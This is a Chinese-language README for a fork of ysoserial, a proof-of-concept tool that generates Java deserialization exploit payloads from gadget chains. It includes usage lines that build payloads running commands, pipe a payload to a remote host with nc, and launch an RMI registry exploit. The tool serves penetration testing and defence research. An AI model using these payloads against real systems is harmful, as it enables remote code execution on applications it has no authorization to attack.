

# ysoserial

[](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)
[](https://travis-ci.com/github/frohoff/ysoserial)
[](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)
[](https://jitpack.io/#frohoff/ysoserial)

**ysoserial** 是一个用于生成利用 Java 对象反序列化漏洞的有效载荷（payload）的概念验证工具。

## 更新之处
 - 1. java版本更新为支持22版本。
 - 2. 可以使用以下命令自助编译打包。
```
mvn package -Dmaven.test.skip=true
```




---

## 工具简介

ysoserial 最早在 AppSecCali 2015 演讲 ["Marshalling Pickles: how deserializing objects will ruin your day"](https://frohoff.github.io/appseccali-marshalling-pickles/) 中发布，包含适用于 Apache Commons Collections (3.x 和 4.x)、Spring Beans/Core (4.x) 和 Groovy (2.3.x) 的 gadget 链。后续版本增加了对 [JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) 和其他常见 Java 库的支持。

ysoserial 是一组利用流行 Java 库中的 "gadget 链" 的工具集合。这些 gadget 链可以在特定条件下，利用 Java 应用程序中不安全的对象反序列化操作。工具的主要功能是接收用户指定的命令，并通过指定的 gadget 链将其封装，然后将序列化结果输出到标准输出。当目标应用程序具有所需的 gadget 且执行了不安全的反序列化时，会触发命令在目标主机上执行。

**需要注意**：漏洞的根本原因是目标应用程序的不安全反序列化行为，而非 gadget 本身的存在。

---

## 免责声明

此软件仅供学术研究和开发有效防御技术之用。请勿将其用于未经授权的系统攻击。项目维护者对软件的误用不承担任何责任。请负责任地使用。

---

## 使用方法

```shell
$ java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  可用的 payload 类型：
     Payload             作者                      依赖
     -------             -------                  ------------
     AspectJWeaver       @Jang                    aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     ...
```

---

## 示例

```shell
# 使用 CommonsCollections1 生成命令 calc.exe 的 payload
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd

# 生成 Groovy1 类型 payload 并保存为文件
$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

# 利用 RMI 注册表漏洞执行 payload
$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

---

## 安装

点击下载 [最新发布版本](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)。

---

## 构建

需要 Java 1.7+ 和 Maven 3.x+：

```shell
mvn clean package -DskipTests
```

---

## 代码状态

[](https://travis-ci.com/github/frohoff/ysoserial)
[](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

---

## 参与贡献

1. Fork 项目
2. 创建分支 (`git checkout -b my-new-feature`)
3. 提交更改 (`git commit -am '添加新功能'`)
4. 推送到分支 (`git push origin my-new-feature`)
5. 提交 Pull Request

---

## 相关资源

- [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)：关于反序列化漏洞的信息、工具、博客等。
- [marshalsec](https://github.com/frohoff/marshalsec)：针对不同序列化格式/库的类似项目。
- [ysoserial.net](https://github.com/pwntester/ysoserial.net)：用于 .NET 反序列化的类似项目。
